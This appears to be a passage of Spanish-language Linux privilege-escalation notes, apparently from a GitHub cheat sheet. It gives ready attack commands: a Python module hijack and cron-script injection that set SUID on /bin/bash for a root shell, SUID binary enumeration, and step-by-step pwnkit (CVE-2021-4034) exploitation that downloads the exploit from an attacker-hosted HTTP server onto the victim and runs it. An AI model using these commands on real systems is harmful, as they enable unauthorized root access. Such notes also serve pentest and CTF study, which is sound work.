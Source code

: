 Haces un bash -p y te conviertes el el usuario root.
```
nvim hashlib.py -> import os 
		   os.system('chmod u+s "/bin/bash"') 	# Tambien se puede asignar sl permiso SUID asi chmod 4755 /bin/bash 

sudo -u root /usr/bin/python /home/<username>/script.py
bash -p
```
<br><br>
## cat /etc/crontab | crontab -l.
Con este comando puedes ver las tareas cron programadas en el sistema y posteriormente aprovecharte de una de ellas para inyectar código malicioso. <br>
Las tareas cron por lo regular llegar a ser scripts relacionados con correos, bases de datos o comprobación de rutinas programadas con presición para que se ejecuten en una determinada fecha y hora.<br>
Uno como atacante puede ver las que tareas estan por ejecutarse y modificarlas agregando una linea que en el script que al ejecutarse le cambie los permisos a la bash por SUID.
```
chmod u+s /bin/bash
chmod 4755 /bin/bash
watch -c 1 /bin/bash 	# Comando para monitorizar el cambio de permisos en la bash
```
<br>
<b>PSPY</b><br>
Es una herramienta que te ayuda a identificar tareas o comandos que se estén ejecutando en el sistema.<br>
Descarga: `` https://github.com/DominicBreuker/pspy/releases ``. "Descargar el pspy64".
<br>
Para hacer uso de esta herramienta es necesario que la transfieras a la máquina víctima, asignarle permisos de ejecución y ejecutarla.
```
./pspy64
```
<br><br>
## find \\-perm -4000 -user root -ls 2>/dev/null.
Listar aquellos binarios SUID de los cuales el proprietario sea el usuario root y los errores los rediriges al stderr para no verlos en pantalla.<br>
- ./usr/bin/pkexec (CVE-2021-4034).<br>Con este binario puedes llegar a escalar privilegios con la herramienta pwnkit que se encuentra en github.<br>Lo primero que se tiene que hacer es ver si la máquina víctima cuenta con wget y make. Posteriormente te clonas repositorio de github y lo descomprimes.<br>Desde tu máquina de atacante te compartes un servicio HTTP por el puerto 80 para transferir el pwnkit. Por ultimo te transfieres el pwnkit, ingresas en el, haces un make y lo ejecutas. Al ejecutarlo ganas acceso al sistema como el usuario root.

```
which wget && which make -> /usr/bin/wget 
			    /usr/bin/make
git clone https://github.com/berdav/CVE-2021-4034 
mv CVE-2021-4034.zip pwnkit.zip && zip -r pwnkit.zip pwnkit
sudo python3 -m http.server 80

wget http://<ip-address>/pwnkit
cd pwnkit && make && ./pwnkit
```
- ./usr/local/bin/backup.<br>Ver el propietario y el grupo al cual pertenece el binario backup. En caso de que el binario pertenezca a otros grupos puedes verificar que usuario esta en ese grupo para poder ejecutar el binario.
